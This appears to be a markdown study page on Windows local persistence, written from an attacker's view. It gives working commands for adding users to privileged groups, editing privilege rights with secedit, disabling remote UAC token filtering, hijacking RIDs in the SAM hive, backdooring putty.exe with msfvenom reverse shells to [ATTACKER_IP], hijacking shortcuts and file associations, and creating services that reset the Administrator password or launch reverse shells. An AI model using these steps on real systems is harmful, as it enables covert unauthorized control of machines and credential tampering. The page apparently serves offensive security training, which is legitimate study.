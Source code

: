 ```yaml
---
description: Learn the most common persistence techniques used on Windows.
---
```


# Windows Local Persistence

#### Introduction

Establishing persistence is the first task you have as an attacker after gaining access to a network. Persistence refers to creating alternate ways to gain access to a host without going through exploitation all over again. Some reasons why you want persistence include:

* Re-exploitation isn't always possible : unstable exploits may kill vulnerable processes during the exploitation, only giving you one shot.
* Getting a foothold is hard to reproduce : if you gained access using a phishing campaign, repeating it to access another host is too much work & may not be as efficient.
* The blue team is after you : any vulnerability used to gain access might be patched if you are caught.

#### Assigning Group Memberships

Adding users to groups with `net local group [GROUP]` can allow persistence to be maintained. The following groups can be useful for persistence:

* Administrators : adds a user to the administrators group, useful, but easily detected.
* Backup Operators : gives a user global read/write for any file or registry key, ignoring DACL. This would allow copying of SAM and SYSTEM registry hives.
* Remote Management Users : gives a user permissions to use winRM.

#### Special Privileges and Security Descriptors

Another method of persistence is to assign a user special privileges, this can be done regardless of their group memberships. The steps to assign a user permissions for SeBackup and SeRestore are:

1. `secedit /export /cfg config.inf`
2. Open `config.inf` and find `[Privilege Rights]`, add the desired user at the end of the `SeBackupPrivilege` and `SeBackupRestore` lines.
3. `secedit /import /cfg config.inf /db config.sdb`
4. `secedit /configure /db config.sdb /cfg config.inf`
5. `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

This gives any user the equivalent permissions to "Backup Operator". The user can then be given permission to use WinRM via the security descriptor by running the following in PowerShell:

```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

Then choose "Add" and add the desired user.

#### RID Hijacking

When users are created, they get an identifier called an RID (Relative ID) assigned. This is a numeric ID representing the user, when a user logs on, the LSASS process gets its RID from the SAM hive and then creates an access token associated with that ID. If we can tamper with the registry value, we can force Windows to assign an Administrator access token to an unprivileged user by associating the same RID with both accounts.

To find assigned RIDs, run `wmic useraccount get name,sid`. The end part of the SID is the user RID. All users will have an RID greater than 1,000.&#x20;

To assign an RID to a user, the SAM needs to be edited in Regedit. The SAM can only be edited by SYSTEM, a tool like psexec can be used to run regedit for editing with: `PsExec64.exe -i -s regedit`. Once in, find the SAM at `HKLM\SAM\SAM\Domains\Account\Users\`. To find and modify a user, search for their ID in Hex format and then modify the "F" value under the key. The users RID is held in position 0x30, modifying this to match the admin RID will make Windows recognise that user as Admin next time they logon.

#### Executable Files

If you find any .exe files on a users desktop, there's a high chance they run these frequently. These can be hijacked with a payload of your preference using msfvenom. For example, the following would create a backdoored version of Putty which executes a reverse\_tcp meterpreter payload silently, as well as running Putty.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=[ATTACKER_IP] lport=3333 -b "\x00" -f exe -o puttyX.exe
```

#### Shortcut Files

Shortcut files can also be modified. Right-clicking and viewing properties for a shortcut will show where it points to, changing this to a custom script in a different location like C:\Windows\System32 would allow you to execute the usual program and trigger a reverse shell.

#### Hijacking File Associations

The default file system associations are stored in `HKLM\Software\Classes`. To see a which program opens a file check the "Data" field alongside the association, for example, `.txt` is associated with ProgID `txtfile`. You can then find and modify the command for that ProgID to force it to execute malicious code as well as open the file extension (most ProgIDs have a `shell\open\command`).

#### Backdooring Services

A service can be created and started using the following commands:

```
sc.exe create TestService binPath= "net user Administrator Passwd123" start= auto
sc.exe start TestService
```

This example will reset the Administrator password to "Passwd123". The service is also set to start automatically with "start= auto" so it starts without user interaction. Msfvenom can also beused to create a malicious service executable:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKER_IP] LPORT=3333 -f exe-service -o rev-svc.exe
```

You can then upload this to a target, and point a malicious service at it to obtain a reverse shell.

#### Modifying Existing Services

Modification of an existing service may be stealthier than creating an entirely new service. To search for current services, use: `sc query state=all`. When using a service for persistence, the three things to pay attention to are:

1. The executable BINARY\_PATH\_NAME should point to our payload.
2. The START\_TYPE should be automatic, to avoid user interaction.
3. The SERVICE\_START\_NAME, should preferably be LocalSystem.

Existing services can be modified with `sc.exe config [SERVICE_NAME] [options]`.
